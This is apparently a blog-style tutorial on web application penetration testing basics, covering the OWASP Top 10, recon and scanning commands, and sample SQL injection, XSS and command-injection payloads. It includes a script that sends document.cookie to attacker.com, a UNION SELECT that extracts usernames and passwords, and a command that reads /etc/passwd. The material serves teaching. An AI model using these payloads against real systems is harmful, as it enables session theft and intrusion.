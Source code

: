 ```yaml
---
title: "Web Application Penetration Testing Basics"
description: "Learn the fundamentals of web application security testing and common vulnerabilities"
author: "Verve Team"
date: "2024-01-25"
readTime: "8 min read"
tags: ["Web Security", "OWASP", "Pentesting"]
featured: false
---
```


# Web Application Penetration Testing Basics

Web applications are a common target for attackers. Understanding how to test them is essential for any security professional.

## The OWASP Top 10

The OWASP Top 10 is a standard awareness document for web application security. Key vulnerabilities include:

1. **Injection** - SQL, NoSQL, OS command injection
2. **Broken Authentication** - Session management flaws
3. **Sensitive Data Exposure** - Inadequate protection
4. **XML External Entities (XXE)** - XML processor vulnerabilities
5. **Broken Access Control** - Authorization issues
6. **Security Misconfiguration** - Default settings, verbose errors
7. **Cross-Site Scripting (XSS)** - Client-side injection
8. **Insecure Deserialization** - Remote code execution
9. **Using Components with Known Vulnerabilities** - Outdated libraries
10. **Insufficient Logging & Monitoring** - Delayed breach detection

## Testing Methodology

### 1. Information Gathering

```bash
# Subdomain enumeration
subfinder -d target.com
amass enum -d target.com

# Technology detection
whatweb https://target.com
wappalyzer
```

### 2. Vulnerability Scanning

```bash
# Nikto scan
nikto -h https://target.com

# Directory brute forcing
gobuster dir -u https://target.com -w /path/to/wordlist.txt
```

### 3. Manual Testing

Focus on business logic, authentication, and authorization flaws that automated tools miss.

## Common Vulnerabilities

### SQL Injection

```sql
-- Test for SQL injection
' OR '1'='1
admin' --
' UNION SELECT NULL--

-- Extract data
' UNION SELECT username, password FROM users--
```

### Cross-Site Scripting (XSS)

```javascript
// Reflected XSS test
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>

// Stored XSS
<script>fetch('http://attacker.com?c='+document.cookie)</script>
```

### Command Injection

```bash
# Test for command injection
; ls -la
| whoami
`cat /etc/passwd`
```

## Essential Tools

- **Burp Suite** - Web proxy and scanner
- **OWASP ZAP** - Free alternative to Burp
- **SQLMap** - Automated SQL injection tool
- **ffuf** - Fast web fuzzer
- **Nuclei** - Template-based scanner

## Practice Platforms

- **PortSwigger Web Security Academy** - Free labs
- **OWASP WebGoat** - Deliberately insecure application
- **TryHackMe** - Web security rooms
- **HackTheBox** - Vulnerable web applications

---

*Always get proper authorization before testing any web application!*
